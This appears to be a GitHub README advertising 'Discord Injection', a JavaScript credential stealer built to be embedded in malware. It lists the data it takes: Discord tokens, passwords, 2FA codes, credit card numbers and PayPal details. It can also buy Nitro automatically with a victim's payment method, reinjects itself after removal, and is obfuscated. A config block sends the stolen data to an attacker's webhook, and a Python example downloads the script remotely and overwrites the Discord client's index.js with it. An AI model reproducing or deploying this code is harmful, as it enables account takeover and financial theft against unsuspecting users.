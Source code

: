 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

##### ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ [🌌・Discord](https://cheataway.com) ⋮  [💉・Setting up the injection](https://github.com/Rdimo/Discord-Injection#configure-discord-injection) ⋮ [💻・License](https://github.com/Rdimo/Discord-Injection#license) ⋮ [📜・ChangeLog](https://github.com/Rdimo/Discord-Injection#changelog)

<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```
> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir) 
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-2\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- Grab ip, name etc...
- Fix bugs
- More settings

## :seedling:・Inspiration
Discord-Injection is inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits linking to this repo

## 💭・ChangeLog
```diff

v0.0.4 ⋮ 2022-03-31
+ Cleanup

v0.0.3 ⋮ 2022-03-31
+ Fixed Typo

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```